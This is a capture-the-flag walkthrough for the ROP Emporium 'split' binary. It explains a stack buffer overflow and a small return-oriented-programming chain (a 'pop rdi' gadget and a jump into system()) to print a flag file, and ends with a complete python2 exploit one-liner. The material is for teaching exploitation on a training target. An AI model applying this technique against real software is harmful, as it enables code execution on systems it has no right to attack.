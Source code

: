 ### split
The problem guides has told you that same as ret2win, there is a 0x20 buffer, can be overflowed, and there is still a syscall in a function named usefulFunction.

First, check the binarat security.
```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
NX is enabled. Therefore, we cannot execute shellcode in stack directly. Thankful, the hint has told us that there is a syscall in function. We only need to control return address to jump to the syscall place.
Use ghidra to track the code.

There is indeed a 0x20 buffer, and indeed a syscall in function usefulFunction.

However, the syscall command is not "/bin/cat flag.txt", "but /bin/ls".
```
...
00400746 bf 4a 08        MOV        EDI=>s_/bin/ls_0040084a,s_/bin/ls_0040084a       = "/bin/ls"
         40 00
0040074b e8 10 fe        CALL       system                                           int system(char * __command)
         ff ff
...
```
Therefore, need to modify the command in the syscall, try to assign "/bin/cat flag.txt" to the register edi(x86 64 first argument).

Use ghidra to find "/bin/cat flag.txt" in binary.
```
...
                     usefulString                                    XREF[1]:     Entry Point(*)  
00601060 2f 62 69        ds         "/bin/cat flag.txt"
         6e 2f 63 
         61 74 20 

...
```
We find the string "/bin/cat flag.txt" in address 0x00601060.

Now, we need to find a instruction such as "pop rdi" or "pop edi" with ret to assign this address to EDI register.

Use rop command in peda-gdb.
```
...
0x00000000004007c3 : pop rdi ; ret
...
```
We find a gadget which exactly we want.

Then, we can construct our rop overflow strings.

Same as ret2win, buffer size is 0x20, and a rbp address, so the strings should be:

```
strings = 'A'*32(32 bytes) + rbp(8 bytes) = 'A' * 40 //overflow 0x20 buffer and rbp register
```
Next, the process should return to the gadget we found before, which will be:
```
'\xc3\x07\x40\x00\x00\x00\x00\x00' //return address jump to the gadget we want. In this case is, pop rdi; ret;
```
Then, we need to put the "/bin/cat flag.txt" address into stack, which will be pop into EDI register later:
```
'\x60\x10\x60\x00\x00\x00\x00\x00' //the value we want to pop into rdi register. In this case is the address of string "/bin/cat flag.txt".
```
Now, we successfully assign the command we want into the EDI register, we can return to the syscall place to executer syscall.
```
'\x4b\x07\x40\x00\x00\x00\x00\x00' //return address jump to the syscall. It will execute the command we assign to rdi.
```
Remember, we should directly jump to call system instruction. If we jump to the instruction right before it, the argument in EDI will be modified to "/bin/ls" again. 

The overflow string will be:
```
'A'*40 + '\xc3\x07\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\x4b\x07\x40\x00\x00\x00\x00\x00'
```
Run the program with input:
```
python2 -c "print 'A'*40 + '\xc3\x07\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\x4b\x07\x40\x00\x00\x00\x00\x00'" | ./split
```
Get the flag:
```
ROPE{a_placeholder_32byte_flag!}
```
